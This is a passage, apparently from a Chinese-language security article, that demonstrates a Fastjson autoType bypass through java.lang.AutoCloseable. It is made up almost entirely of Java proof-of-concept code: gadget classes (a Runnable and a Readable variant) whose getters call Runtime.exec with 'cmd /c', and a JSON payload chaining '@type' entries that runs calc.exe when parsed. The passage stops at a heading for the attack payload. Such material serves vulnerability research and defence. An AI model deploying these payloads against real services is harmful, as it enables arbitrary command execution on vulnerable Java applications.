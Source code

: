     
    package org.heptagram.fastjson;  
    import java.io.IOException;  
    public class ExecRunnable implements AutoCloseable {    private EvalRunnable eval;  
        public EvalRunnable getEval() {        return eval;    }  
        public void setEval(EvalRunnable eval) {        this.eval = eval;    }  
        @Override    public void close() throws Exception {  
        }}  
    class EvalRunnable implements Runnable {    private String cmd;  
        public String getCmd() {        System.out.println("EvalRunnable getCmd() "+cmd);        try {            Runtime.getRuntime().exec(new String[]{"cmd","/c",cmd});        } catch (IOException e) {            e.printStackTrace();        }        return cmd;    }  
        public void setCmd(String cmd) {        this.cmd = cmd;    }  
        @Override    public void run() {  
        }}

执行载荷：

  *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    package org.heptagram.fastjson;  
    import com.alibaba.fastjson.JSONObject;  
    public class ExecRunnableMain {    public static void main(String[] args) {        String payload ="{\n" +                "  \"@type\":\"java.lang.AutoCloseable\",\n" +                "  \"@type\": \"org.heptagram.fastjson.ExecRunnable\",\n" +                "  \"eval\":{\"@type\":\"org.heptagram.fastjson.EvalRunnable\",\"cmd\":\"calc.exe\"}\n" +                "}";        JSONObject.parseObject(payload);    }}

执行结果：

![]()

B、Readable：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    package org.heptagram.fastjson;  
    import java.io.IOException;import java.nio.CharBuffer;  
    public class ExecReadable implements AutoCloseable {    private EvalReadable eval;  
        public EvalReadable getEval() {        return eval;    }  
        public void setEval(EvalReadable eval) {        this.eval = eval;    }  
        @Override    public void close() throws Exception {  
        }}  
    class EvalReadable implements Readable {    private String cmd;  
        public String getCmd() {        System.out.println("EvalReadable getCmd() "+cmd);        try {            Runtime.getRuntime().exec(new String[]{"cmd", "/c", cmd});        } catch (IOException e) {            e.printStackTrace();        }  
            return cmd;    }  
        public void setCmd(String cmd) {        this.cmd = cmd;    }  
        @Override    public int read(CharBuffer cb) throws IOException {        return 0;    }}

攻击载荷：
